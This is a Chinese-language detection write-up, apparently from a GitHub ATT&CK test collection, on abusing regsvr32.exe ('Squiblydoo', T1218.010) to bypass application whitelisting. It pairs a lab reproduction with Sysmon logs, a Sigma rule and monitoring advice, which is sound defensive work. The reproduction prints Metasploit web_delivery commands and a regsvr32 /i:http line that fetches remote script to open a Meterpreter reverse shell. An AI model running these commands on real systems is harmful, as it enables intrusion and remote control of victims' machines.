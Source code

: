 # T1218-010-Win-使用Regsvr32执行payload（白名单）

## 来自ATT&CK的描述

命令行程序Regsvr32.exe用于在Windows系统上注册和注销对象链接及嵌入控件，包括动态链接库（DLL）。Regsvr32.exe可用于执行任意二进制文件。

攻击者可能会利用此功能代理执行代码，从而避免触发那些可能不会监控regsvr32.exe进程执行及其加载模块的安全工具，因为正常操作中使用regsvr32.exe的Windows会有白名单或误报。Regsvr32.exe也是微软签名的二进制文件。

Regsvr32.exe还可用于专门绕过进程白名单，方法是加载COM脚本小程序在用户权限下执行动态链接库。由于regsvr32.exe具有网络和代理感知功能，可以在调用期间将URL作为参数传递到外部web服务器上的文件来加载脚本。此方法不对注册表进行任何更改，因为COM对象实际上未注册，仅执行。这个技术变种通常称为“Squiblydoo”攻击，已被攻击者用于针对政府的活动中。

攻击者还可能会利用Regsvr32.exe来注册COM对象以便通过COM劫持建立持久性。

## 测试案例

Regsvr32命令用于注册COM组件，是 Windows 系统提供的用来向系统注册控件或者卸载控件的命令，以命令行方式运行。WinXP及以上系统的regsvr32.exe在windows\system32文件夹下；2000系统的regsvr32.exe在winnt\system32文件夹下。但搭配regsvr32.exe使用的 DLL，需要提供 DllRegisterServer 和 DllUnregisterServer两个输出函式，或者提供DllInstall输出函数。

说明：Regsvr32.exe所在路径已被系统添加PATH环境变量中，因此，Regsvr32命令可识别。

默认位置：

```bash
C:\WINDOWS\SysWOW64\regsvr32.exe
C:\WINDOWS\system32\regsvr32.exe
```

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

## 检测日志

Windows 安全日志（需要自行配置）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：win7（sysmon日志）

### 攻击分析

#### 配置MSF

```bash
msf5 > use exploit/multi/script/web_delivery
msf5 exploit(multi/script/web_delivery) > set target 3
target => 3
msf5 exploit(multi/script/web_delivery) > set lhost 192.168.126.146
lhost => 192.168.126.146
msf5 exploit(multi/script/web_delivery) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/script/web_delivery) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.126.146:4444
[*] Using URL: http://0.0.0.0:8080/06Yud7aXXqYqT
[*] Local IP: http://192.168.126.146:8080/06Yud7aXXqYqT
[*] Server started.
[*] Run the following command on the target machine:
regsvr32 /s /n /u /i:http://192.168.126.146:8080/06Yud7aXXqYqT.sct scrobj.dll
```

#### 靶机执行payload

```cmd
regsvr32 /s /n /u /i:http://192.168.126.146:8080/jnOUcgr0b0 scrobj.dll
```

#### 反弹shell

```bash
msf5 exploit(multi/script/web_delivery) > [*] 192.168.126.149  web_delivery - Handling .sct Request
[*] 192.168.126.149  web_delivery - Delivering Payload (1900 bytes)
[*] 192.168.126.149  web_delivery - Handling .sct Request
```

以失败告终，windows powershell已停止工作

## 测试留痕

```log
EventID：1
Image: C:\Windows\System32\regsvr32.exe
FileVersion: 6.1.7600.16385 (win7_rtm.090713-1255)
Description: Microsoft(C) Register Server
Product: Microsoft® Windows® Operating System
Company: Microsoft Corporation
OriginalFileName: REGSVR32.EXE
CommandLine: regsvr32  /s /n /u /i:http://192.168.126.146:8080/06Yud7aXXqYqT.sct scrobj.dll
# sysmon日志
```

## 检测规则/思路

### sigma规则

```yml
title: Regsvr32 Anomaly
status: experimental
description: Detects various anomalies in relation to regsvr32.exe
author: Florian Roth
date: 2019/01/16
references:
    - https://subt0x10.blogspot.de/2017/04/bypass-application-whitelisting-script.html
tags:
    - attack.t1117
    - attack.defense_evasion
    - attack.execution
    - car.2019-04-002
    - car.2019-04-003
logsource:
    category: process_creation
    product: windows
detection:
    selection1:
        Image: '*\regsvr32.exe'
        CommandLine: '*\Temp\\*'
    selection2:
        Image: '*\regsvr32.exe'
        ParentImage: '*\powershell.exe'
    selection3:
        Image: '*\regsvr32.exe'
        ParentImage: '*\cmd.exe'
    selection4:
        Image: '*\regsvr32.exe'
        CommandLine:
            - '*/i:http* scrobj.dll'
            - '*/i:ftp* scrobj.dll'
    selection5:
        Image: '*\wscript.exe'
        ParentImage: '*\regsvr32.exe'
    selection6:
        Image: '*\EXCEL.EXE'
        CommandLine: '*..\..\..\Windows\System32\regsvr32.exe *'
    condition: 1 of them
fields:
    - CommandLine
    - ParentCommandLine
falsepositives:
    - Unknown
level: high
```

### 建议

通过进程监控来检测和分析regsvr32.exe的执行和参数。比较regsvr32.exe的近期调用与历史已知合法参数及已加载文件来确定是否有异常和潜在的攻击活动。在regsvr32.exe调用之前和之后使用的命令参数也可用于确定正在加载的脚本或者动态链接库的来源和目的。

## 参考推荐

MITRE-ATT&CK-T1218-010

<https://attack.mitre.org/techniques/T1218/010/>
